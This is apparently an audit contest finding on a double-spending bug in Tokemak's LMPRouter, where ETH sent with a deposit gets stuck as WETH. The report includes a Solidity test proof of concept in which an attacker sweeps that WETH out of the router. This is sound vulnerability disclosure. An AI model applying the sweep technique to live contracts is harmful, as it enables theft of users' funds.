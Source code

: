 Long Satin Sealion

high

# Double spending issue in LMPRouter
## Summary

The LMPRouter deposit/mint functions can be used with **msg.value** as they are payable. **The _processEthIn function** is called. However, **it stucks WETH in the router**, **not sending it to the LMP vault**. After that, any user **can steal that WETH from the router.**

## Vulnerability Detail

The vulnerability can lead to a double spending issue since the front end or the user will probably approve the router from spending his WETH. 

1. The user will send to his deposit function an optimal ETH amount to deposit to LMPVault. The router promises to wrap ETH and send it to the LMPVault.
2. However, the LMPRouter calls **weth.deposit** in the context of the contract and not in the context of a user, so the WETH is sent to the router. But as the user approved the router from pulling his WETH, the router called pullToken.
3. In this sense, WETH from a user’s balance is sent to the LMPVault, and proper shares are minted to the user. But all ETH that the user sends along with his deposit gets to the router.
4. This WETH located in the router could be stolen by the attacker as he can call the sweepToken() function.

*Notes: pullToken and sweepToken functions are available in PeripheryPayments.sol*

Poc below can be added to LMPVaultRouter.t.sol
### POC
```Solidity
function test_double_spending() public {
        //@audit-issue issue test for Stucking ETH in contract and anyone can withdraw it
        address attacker = makeAddr("attacker");
        uint256 amount = depositAmount;
        uint256 etherAmount = 1 ether;
        uint256 baseAssetBefore = baseAsset.balanceOf(address(this));
        uint256 sharesBefore = lmpVault.balanceOf(address(this));

        baseAsset.approve(address(lmpVaultRouter), amount); // Frontend leads user to approve or he approved router from some old times
        uint256 sharesReceived = lmpVaultRouter.deposit{ value: etherAmount }(lmpVault, address(this), amount, 1);

        assertGt(sharesReceived, 0);
        assertEq(baseAsset.balanceOf(address(this)), baseAssetBefore - amount);
        assertEq(lmpVault.balanceOf(address(this)), sharesBefore + sharesReceived);
        assertEq(baseAsset.balanceOf(address(lmpVaultRouter)), etherAmount); // whole msg.value got stuck in Router, attacker can claim it

        vm.startPrank(attacker);
        lmpVaultRouter.sweepToken(baseAsset, etherAmount, attacker);
        assert(baseAsset.balanceOf(attacker) == etherAmount);
    }

```

## Impact
Loss of user’s funds. The router does not behave as it should when processing deposit/mint functions with ETH.

## Code Snippet
https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L120

- Deposit is not handled differently when the ETH is sent.
https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L44C1-L57C6

## Tool used

Manual Review

## Recommendation
The weth.deposit should be called in the context of a user (use function delegate call), or if ETH is sent, process deposit/mint differently. Do not pull tokens from the user.
